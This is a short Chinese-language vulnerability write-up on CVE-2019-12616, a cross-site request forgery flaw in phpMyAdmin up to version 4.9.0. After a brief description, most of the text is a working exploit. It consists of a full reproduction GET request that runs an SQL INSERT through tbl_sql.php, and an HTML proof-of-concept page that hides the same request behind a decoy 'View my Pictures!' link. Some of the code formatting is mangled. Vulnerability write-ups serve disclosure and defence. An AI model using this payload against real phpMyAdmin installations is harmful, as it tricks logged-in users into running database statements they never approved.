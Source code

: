 ```yaml
---
title: （CVE-2019-12616）Phpmyadmin CSRF
id: zhfly3084
---
```


# （CVE-2019-12616）Phpmyadmin CSRF

## 一、漏洞简介

4.9.0之前在phpmyadmin中发现了一个问题。发现一个漏洞，允许攻击者对phpMyAdmin用户触发CSRF攻击。攻击者可以欺骗用户。

```
例如通过指向受害者的phpMyAdmin数据库的一个损坏的<img>标记，并且攻击者可以潜在地将有效负载（例如特定的插入或删除语句）传递给受害者。 
```

## 二、漏洞影响

Phpmyadmin <= 4.9.0

## 三、复现过程

```
GET http://www.0-sec.org:9000/tbl_sql.php?sql_query=INSERT+INTO+%60pma__bookmark%60+(%60id%60%2C+%60dbase%60%2C+%60user%60%2C+%60label%60%2C+%60query%60)+VALUES+(DAYOFWEEK(%27%27)%2C+%27%27%2C+%27%27%2C+%27%27%2C+%27%27)&show_query=1&db=phpmyadmin&table=pma__bookmark HTTP/1.1 `User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Connection: keep-alive

Cookie: pmaCookieVer=5; pma_lang=en; pma_collation_connection=utf8mb4_unicode_ci; pmaUser-1=%7B%22iv%22%3A%22M16ZzlA0rqF9BZ1jFsssjQ%3D%3D%22%2C%22mac%22%3A%22804941d12fceca0997e181cbcb8427d68c668240%22%2C%22payload%22%3A%22mD9juTxAYhC7lA7XPWHWOw%3D%3D%22%7D; phpMyAdmin=9bdd66557e399fc1447bf253bc2dc133

Upgrade-Insecure-Requests: 1

Host: localhost:9000` 
```

攻击者可以很容易地创建一个假超链接，其中包含希望代表用户执行的请求，这样就可能由于错误地使用http方法而导致csrf攻击

```
#POC
<!doctype html> `<html lang=“en”>

<head>

<meta charset=“utf-8”>

<title>POC CVE-2019-12616</title>

</head>

<body>

<a href=“[http://www.0-sec.org:9000/tbl_sql.php?sql_query=INSERT+INTO+](http://www.0-sec.org:9000/tbl_sql.php?sql_query=INSERT+INTO+)`pma__bookmark`+(`id`%2C+`dbase`%2C+`user`%2C+`label`%2C+`query`)+VALUES+(DAYOFWEEK(’’)%2C+’’%2C+’’%2C+’’%2C+’’)&show_query=1&db=phpmyadmin&table=pma__bookmark”>View my Pictures!</a>

</body>

</html>` 
```